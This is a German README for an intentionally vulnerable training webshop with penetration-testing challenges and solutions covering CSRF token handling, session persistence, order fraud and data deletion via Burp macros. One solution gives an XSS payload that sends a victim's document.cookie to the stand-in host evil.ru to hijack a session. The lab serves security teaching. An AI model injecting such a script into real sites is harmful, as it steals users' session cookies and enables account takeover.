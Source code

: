 [![Build Status](https://travis-ci.org/BenjiTrapp/Project-Makalu.svg?branch=master)](https://travis-ci.org/BenjiTrapp/Project-Makalu)

# Project [Makalu](https://de.wikipedia.org/wiki/Makalu) - An unsecure Webshop with an intentional broken Session Handling
Im Zuge des neuen Online Shops der **anna group** wird auch ein neues Session Handling benötigt. Der hier vorliegende 
Code steht kurz vor dem produktiven Livegang. Trotz der rapiden Entwicklung machen sich erhebliche Zweifel breit, ob
 nicht etwas wichtiges vergessen wurde?

### Motivation
Moderne WebApps verfügen teilweise über eine enorme Komplexität. Um den Kunden vor mögliche Angriffe zu schützen, benötigen unter anderem Requests die an eine WebApp gestellt werden eine Login-Session. Ein Request benötigt üblicherweise die Daten aus einer 
vorherigen Response (bspw. CSRF tokens). Die empfangenen Daten in einem Teilrequest, können auch einige Requests später noch 
benötigt werden wie zum Beispiel während des Checkout Prozesses. Dies macht den Einsatz von "unique" Namen/IDs während der Erstellung eines Requests notwendig. 
 
**Randbemerkung**: Das Fuzzing bspw. im Kontext eines CSRF tokens, erzeugt eine Vielzahl von Daten sowie Aufrufe innerhalb der WebApplikation. Dadurch kann im Falle eines Angriffs, die Performance der gesamten Applikation beeinträchtigen. Die Performance selbst,
steht in diesem Penetrationtests NICHT im Fokus, kann aber je nach gewählter Fuzzing-Methode zu einem "Problem" für den Angriff werden. 

## Problemstellung:
 Helfe der **anna group** durch einen Penetrationtest die Sicherheit des Session Handlings zu prüfen. Um diesen Wunsch
 nachzukommen muss zunächst die Applikation installiert und betriebsbereit gemacht werden. Hierbei hilft 
 sicherlich folgende Anleitung weiter:
 
##### Installation der WebApp
```
1. Install Python >= Version 3.4 + virtualenv
2. (optional) virtualenv -p python3 pyenv
3. (optional) . pyenv/bin/activate
4. pip3 install flask
```

##### Starten der WebApp
```
1. (optional, wenn in virtualenv) . pyenv/bin/activate
2. python3 ProjectMaklulaApp.py
3. Öffne die URL: http://localhost:8001 m Browser 
```

#####  [Credentials](https://www.heise.de/security/meldung/hallo-ist-meistgenutztes-deutsches-Passwort-auf-Platz-zehn-steht-ficken-3579567.html): user/hallo 

## Durchführung des Penetrationtests
Für den Test existiert folgende Use Cases. Zur Durchführung des Penetrationtests kann das File 
"/doc/Burp.burp-projectopts.json" mittels [Burp](https://portswigger.net/burp/freedownload/) als Projekt 
geladen werden. In der JSON-Datei sind alle "session handling rules" enthalten, um die nachfolgenden Challenges
zu lösen. Die Challenges können natürlich auch mit anderen Tools wie bspw. OWASP ZAP gelöst werden.

#### Use Case: Bau dir einen eigenen CSRF Token
```
[Challenge]: Der Übertragene CSRF Token muss übereinstimmen und mit jedem POST Request übertragen werden

[Lösung]:
* Capture des Requests von einem bestehenden CSRF Token
* Erstelle eine "Run a Macro" session handling Regel
    * Der Scope liegt auf den Parameter des CSRF Tokens
    * Update den CSRF Token NUR im aktuell gestellten Request
```

#### Use Case: Übernehme die Session eines anderen Users mittels [XSS-Lücke](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)

```
[Challenge]: Finde ein Eingabefeld, dass eine XSS-Lücke enthält und klaue damit die Session eines ahnungslosen Opfers

[Lösung]:
* Platziere an einer geeigneten Stelle ein inline JavaScript wie beispielsweise: 
    <script>window.location="http://evil.ru/?cookie=" + document.cookie;</script> 
* Extrahiere den erbeuteten Cookie aus dem Request und übernehme die Session 
```

#### Use Case: Behalte die Login-Session offen
```
[Challenge]: Mit einer Wahrscheinlichkeit von 5% beenden WebApplikationen die Login-Session

[Lösung]:
* Capture des Login-Requests in einem Makro
* Erstelle eine "Check Session is Valid" Regel
    * Erstelle einen Request
    * Prüfe den Response-Body nach einem Benutzernamen für die gültige Session
    * Alternativ: Prüfe die Umleitung der Login-URL (die Session muss für diesen Fall invalide sein)
    * Spiele das aufgezeichnete Makro ab bei der Invalidierung der Session
```
    
#### Use Case: Begehe Bestellbetrug 
```
[Challenge]: Führe multiple Requests durch bis die finale Bestellbestätigung erscheint

[Lösung]:
* Führe alle Requests durch bis einer mit Hilfe eines Makros gefuzzed werden kann.
* Finalisiere den Bestellbetrug mit einem "Run a Post-Request Macro", dass den aktuellen Request zurück gibt
* Definiere einen engen Definitionsbereich (URL, Parameter)
```

#### Use Case: Löschen von Eingefügten Daten
```
[Challenge]: Aktuell sind nur drei Einträge erlaubt. Um dies etwas gerechter zu machen, soll die "add" 
Funktionalität gefuzzed werden

[Lösung]:
* Lösche nachträglich gerade hinzugefügte Notizen 
    * Erstelle ein POST-request Makro, dass die Object ID extrahiert und anschließend den Löschvorgang anstößt.
```
